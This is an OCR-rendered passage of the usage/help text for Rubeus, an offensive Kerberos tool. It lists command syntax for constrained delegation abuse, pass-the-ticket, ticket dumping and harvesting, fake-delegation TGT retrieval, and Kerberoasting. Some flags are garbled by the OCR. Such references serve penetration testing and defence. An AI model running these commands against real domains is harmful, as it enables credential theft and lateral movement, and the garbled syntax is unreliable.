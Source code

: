  Perform S4U constrained delegation abuse across domains:
 Rubeus.exe s4u /user:USER </rc4:HASH | /aes256:HASH> [/domainOMAIN] </impersonateuser:USER | /tgs:BASE64 | /tgs:FILE.KIRBI> /msdsspn:SERVICE/SERVER /targetdomainOMAIN.LOCAL /targetdcC.DOMAIN.LOCAL [/altservice:SERVICE] [/dcOMAIN_CONTROLLER] [/nowrap]


 Ticket management:

 Submit a TGT, optionally targeting a specific LUID (if elevated):
 Rubeus.exe ptt </ticket:BASE64 | /ticket:FILE.KIRBI> [/luid:LOGINID]

 Purge tickets from the current logon session, optionally targeting a specific LUID (if elevated):
 Rubeus.exe purge [/luid:LOGINID]

 Parse and describe a ticket (service ticket or TGT):
 Rubeus.exe describe </ticket:BASE64 | /ticket:FILE.KIRBI>


 Ticket extraction and harvesting:

 Triage all current tickets (if elevated, list for all users), optionally targeting a specific LUID, username, or service:
 Rubeus.exe triage [/luid:LOGINID] [/user:USER] [/service:krbtgt] [/server:BLAH.DOMAIN.COM]

 List all current tickets in detail (if elevated, list for all users), optionally targeting a specific LUID:
 Rubeus.exe klist [/luid:LOGINID] [/user:USER] [/service:krbtgt] [/server:BLAH.DOMAIN.COM]

 Dump all current ticket data (if elevated, dump for all users), optionally targeting a specific service/LUID:
 Rubeus.exe dump [/luid:LOGINID] [/user:USER] [/service:krbtgt] [/server:BLAH.DOMAIN.COM] [/nowrap]

 Retrieve a usable TGT .kirbi for the current user (w/ session key) without elevation by abusing the Kerberos GSS-API, faking delegation:
 Rubeus.exe tgtdeleg [/target:SPN]

 Monitor every /interval SECONDS (default 60) for new TGTs:
 Rubeus.exe monitor [/interval:SECONDS] [/targetuser:USER] [/nowrap] [/registry:SOFTWARENAME]

 Monitor every /monitorinterval SECONDS (default 60) for new TGTs, auto-renew TGTs, and display the working cache every /displayinterval SECONDS (default 1200):
 Rubeus.exe harvest [/monitorinterval:SECONDS] [/displayinterval:SECONDS] [/targetuser:USER] [/nowrap] [/registry:SOFTWARENAME]


 Roasting:

 Perform Kerberoasting:
 Rubeus.exe kerberoast [/spn:"blah/blah"] [/user:USER] [/domainOMAIN] [/dcOMAIN_CONTROLLER] [/ou:"OU=,..."] [/nowrap]

 Perform Kerberoasting, outputting hashes to a file:
 Rubeus.exe kerberoast /outfile:hashes.txt [/spn:"blah/blah"] [/user:USER] [/domainOMAIN] [/dcOMAIN_CONTROLLER] [/ou:"OU=,..."]

 Perform Kerberoasting, outputting hashes in the file output format, but to the console:
 Rubeus.exe kerberoast /simple [/spn:"blah/blah"] [/user:USER] [/domainOMAIN] [/dcOMAIN_CONTROLLER] [/ou:"OU=,..."] [/nowrap]

 Perform Kerberoasting with alternate credentials:
 Rubeus.exe kerberoast /creduserOMAIN.FQDN\USER /credpasswordASSWORD [/spn:"blah/blah"] [/user:USER] [/domainOMAIN] [/dcOMAIN_CONTROLLER] [/ou:"OU=,..."] [/nowrap]
